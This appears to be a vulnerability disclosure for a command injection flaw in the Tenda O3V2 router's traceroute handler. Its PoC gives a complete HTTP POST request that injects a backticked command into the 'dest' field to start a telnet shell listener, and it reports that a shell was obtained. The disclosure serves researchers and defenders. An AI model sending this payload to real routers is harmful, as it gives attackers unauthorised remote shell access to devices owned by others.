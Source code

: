 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Tenda router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `fromTraceroutGet` function, `dest` is directly passed by the attacker, so we can control the `dest` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `dest` as **`telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /goform/getTraceroute HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 39
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/index.html
Cookie: O3V2.0_user=admin

hop=1&dest=`telnetd -l /bin/sh -p 9999`
```



## Result

Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>
